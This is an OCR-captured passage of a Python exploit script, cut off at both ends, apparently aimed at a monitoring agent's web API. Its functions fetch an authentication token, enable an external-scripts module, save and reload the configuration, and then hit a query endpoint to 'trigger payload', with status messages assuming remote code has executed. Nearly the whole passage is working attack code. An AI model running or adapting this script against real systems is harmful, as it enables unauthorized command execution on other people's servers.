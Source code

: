 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ba
  header = { "version" : "1" }
  payload = [ { "plugin_id" : "1234", "control" : { "command" : "SAVE" }} ]
  json_data = { "header" : header, "type" : "SettingsRequestMessage", "payload" : payload }
  
  session.post(url = base_url + endpoint, json=json_data, verify=False)  

def reloadConfig(session):

  printStatus("Reloading Application . . .", "info")
  endpoint = "/core/reload"
  session.get(url = base_url + endpoint, verify=False)
  
  # Wait until the application successfully reloads by making a request
  # every 10 seconds until it responds.
  printStatus("Waiting for Application to reload . . .", "info")
  time.sleep(10)
  response = False
  count = 0 
  while not response:
    try:
      out = session.get(url = base_url, verify=False, timeout=10)
      if len(out.content) > 0:
        response = True
    except:
      count += 1
      if count > 10000000000000000000000000000:
        printStatus("Application failed to reload. Nice DoS exploit! /s", "bad")
        sys.exit(1)
      else:
        continue  

def triggerPayload(session, key):

  printStatus("Triggering payload, should execute shortly . . .", "info")
  endpoint = "/query/" + key
  try:
    session.get(url = base_url + endpoint, verify=False, timeout=10)
  except requests.exceptions.ReadTimeout:
    printStatus("Timeout exceeded. Assuming your payload executed . . .", "info")
    sys.exit(0)

def enableFeature(session):

  printStatus("Enabling External Scripts Module . . .", "info")
  endpoint = "/registry/control/module/load"
  params = { "name" : "CheckExternalScripts" }
  out = session.get(url = base_url + endpoint, params=params, verify=False)
  if "STATUS_OK" not in str(out.content):
    printStatus("Error enabling required feature. Hit error at: "  + endpoint, "bad")
    sys.exit(1)

def getAuthToken(session):

  printStatus("Obtaining Authentication Token . . .", "info")
  endpoint = "/auth/token"
  params = { "password" : password }
  auth = session.get(url = base_url + endpoint, params=params, verify=False)  
  if "auth token" in str(auth.content):
    j = json.loads(auth.content)
    authToken = j["auth token"]
    printStatus("Got auth token: " + authToken, "good")
    return authToken
  else:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~